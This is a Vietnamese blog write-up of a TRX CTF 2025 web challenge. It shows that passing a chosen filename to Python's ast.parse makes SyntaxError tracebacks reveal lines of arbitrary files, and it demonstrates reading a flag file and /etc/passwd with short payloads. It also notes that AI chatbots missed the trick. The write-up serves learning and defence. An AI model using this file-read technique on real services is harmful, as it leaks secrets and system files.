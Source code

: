 title: Đọc file tùy ý với ast.parse
date: 2025-02-26
tags: ast, Python, security, ctf
category: pymi.vn
slug: ast_parse
authors: Pymier0
description: ast.parse chỉ parse code thành AST, liệu có đọc được file?

Bài trước [biến nhỏ hơn thành lớn hơn với ast]({filename}/ast_intro.md) giới thiệu sử dụng AST để biến code thành tree, giúp xử lý code theo kiến trúc (thay vì text).

Bài viết này có liên quan tới module `ast`, nhưng trong một hoàn cảnh khác... liên quan tới bảo mật.

### Đề bài - web TRX CTF 2025
Giải [TRX CTF 2025](https://ctftime.org/event/2654) có đề bài cho 1 trang web như sau:

```py
import ast
import traceback
from flask import Flask, render_template, request

app = Flask(__name__)

@app.get("/")
def home():
    return render_template("index.html")

@app.post("/check")
def check():
    try:
        ast.parse(**request.json)
        return {"status": True, "error": None}
    except Exception:
        return {"status": False, "error": traceback.format_exc()}

if __name__ == '__main__':
    app.run(debug=True)
```

một website flask đơn giản, nhận đầu vào tùy ý của người dùng và chạy `ast.parse`.
Một file `secret.py` nằm cùng thư mục, chứa flag

```py

def main():
    print("Here's the flag: ")
    print(FLAG)

FLAG = "TRX{fake_flag_for_testing}"

main()
```

Mục tiêu là đọc giá trị của `FLAG`.

### Đọc tài liệu ast.parse

```
Python 3.10.12 (main, Feb  4 2025, 14:57:36) [GCC 11.4.0] on linux
>>> import ast
>>> print(ast.parse.__doc__)

Parse the source into an AST node.
Equivalent to compile(source, filename, mode, PyCF_ONLY_AST).
Pass type_comments=True to get back type comments where the syntax allows.
```


Tài liệu không ghi gì hơn là đá sang đọc doc của builtin function compile:

```py
>>> print(compile.__doc__)
Compile source into a code object that can be executed by exec() or eval().

The source code may represent a Python module, statement or expression.
The filename will be used for run-time error messages.
The mode must be 'exec' to compile a module, 'single' to compile a
single (interactive) statement, or 'eval' to compile an expression.
The flags argument, if present, controls which future statements influence
the compilation of the code.
The dont_inherit argument, if true, stops the compilation inheriting
the effects of any future statements in effect in the code calling
compile; if absent or false these statements do influence the compilation,
in addition to any features explicitly specified.
```

**The source code may represent a Python module, statement or expression.  The filename will be used for run-time error messages.**

filename được dùng cho run-time error messages, nhưng không rõ ràng là dùng thế nào.
Trên doc trang chủ:

```
ast.parse(source, filename='<unknown>', mode='exec', *, type_comments=False, feature_version=None)¶
```
filename mặc định có giá trị là `<unknown>`.
Thử vài ví dụ:

```py
>>> ast.parse(open(ast.__file__).read(), '<unknown>')
<ast.Module object at 0x752c51f9d7e0>
>>> ast.parse('for i in range(10):\n    print(i)', '<unknown>')
<ast.Module object at 0x752c520ebcd0>
>>> ast.parse('for i in range(10):\n    print(i', '<unknown>')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "<unknown>", line 2
    print(i
         ^
SyntaxError: '(' was never closed
```
có thể thấy khi có SyntaxError, màn hình sẽ hiện ra dòng code bị lỗi syntax, và file `<unknown>` không đóng vai trò gì cả.

Nhưng khi gán filename="secret.py", dòng số 2 của file này lại hiện ra:

```py
>>> ast.parse("for i in range(10):\n    print(i", "secret.py")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "secret.py", line 2
    def main():
             ^
SyntaxError: '(' was never closed
```
đề bài khá "lươn" vì viết code từ dòng thứ 2, nếu người dùng thử với `source='def'` thì sẽ không hiện ra gì.
Vậy chỉ cần viết code xuống đến dòng thứ 6 rồi viết syntax error sẽ hiện ra FLAG:

```py
>>> ast.parse("\n\n\n\n\ndef", "secret.py")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "secret.py", line 6
    FLAG = "TRX{fake_flag_for_testing}"
       ^
SyntaxError: invalid syntax
```

Thậm chí có thể đọc file tùy ý, không cần phải code python:
```py
>>> ast.parse("def", "/etc/passwd")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "/etc/passwd", line 1
    root:x:0:0:root:/root:/bin/bash
       ^
SyntaxError: invalid syntax
```

Đọc code CPython, lần theo function [compile](https://github.com/python/cpython/blob/43a2a372ba071c4ebb1071240da2b852c29d77fb/Python/bltinmodule.c#L759-L855) sẽ tháy

```
PyObject *
_PyErr_ProgramDecodedTextObject(PyObject *filename, int lineno, const char* encoding)
{
...
    FILE *fp = _Py_fopen_obj(filename, "r" PY_STDIOTEXTMODE);
```
trong [errors.c](https://github.com/python/cpython/blob/43a2a372ba071c4ebb1071240da2b852c29d77fb/Python/errors.c#L1946)

Xem write up & source at <https://github.com/TheRomanXpl0it/TRX-CTF-2025/blob/main/web/online-python-editor/remote/app/app.py>
### Góc AI
Vác luôn đề hỏi các AI xịn nhất ngày nay xem:

[Claude.ai](https://claude.ai/share/a8de39c7-6ec3-45b9-b310-c6667d2ca49b)

> Given the code shown, I don't see a direct path to reading the FLAG from secret.py through the ast.parse() function alone. The function's parameters don't provide functionality to import or read other files in a way that would return their contents through the error messages.

sau một hồi đoán mò lung tung đủ thứ. ChatGPT 4o-mini dù phát hiện đoạn code có thể bị DOS attack, nhưng cũng nhầm lẫn tương tự và không thể tìm được cách tấn công.

Chờ bạn đọc chăm chỉ test với DeepSeek R1.

### Kết luận
`ast.parse` có thể đọc file tùy ý.

Hết.

HVN at <http://pymi.vn> and <https://www.familug.org>.

[Ủng hộ tác giả 🍺](https://www.familug.org/p/ung-ho.html)
